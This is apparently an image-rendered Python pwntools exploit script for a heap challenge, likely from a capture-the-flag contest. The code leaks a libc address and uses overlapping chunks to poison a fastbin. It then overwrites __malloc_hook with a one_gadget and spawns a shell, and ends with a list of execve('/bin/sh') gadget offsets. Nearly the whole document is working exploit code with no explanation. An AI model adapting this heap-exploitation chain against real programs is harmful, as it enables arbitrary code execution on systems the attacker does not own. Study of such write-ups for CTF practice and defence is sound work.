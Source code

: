 ```python
p.recvuntil('>> ')
p.sendline('2')
p.recvuntil('index')
p.sendline('0')
p.recvuntil('Note 0: ')
ma = u64(p.recv(6).ljust(8,'\x00'))
libc_base = ma - 0x3c4b78
one = libc_base + 0xf1207
malloc_hook=libc_base+libc.symbols['__malloc_hook']
print 'malloc_hook = '+str(hex(malloc_hook))

add(2,0xf0) 
add(5,0x10)
delete(0)
delete(1)

p.recvuntil('>> ')
p.sendline('5')
p.recvuntil('name:')
p.send('a'*8+'b'*8+'d'*8)
p.recvuntil('motto:')
p.sendline('ccc')
p.recvuntil('age:')
p.sendline('0')

delete(-1)
add(1,0x18)
edit(1,'\x01'*0x10+p64(0xa0+0x20))
delete(2)

add(0,0xb0)
add(2,0x40)
edit(0,'a'*0x90+'\x00'*8+p64(0x71))

delete(1)
edit(0,'a'*0x90+'\x00'*8+p64(0x71)+p64(malloc_hook-0x23))
#gdb.attach(p,'b *0x400F62')#############
add(1,0x60)
add(3,0x60)


pd='\x00'*0x13+p64(one)
edit(3,pd)
add(4,0x60)
p.interactive()

'''
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''
```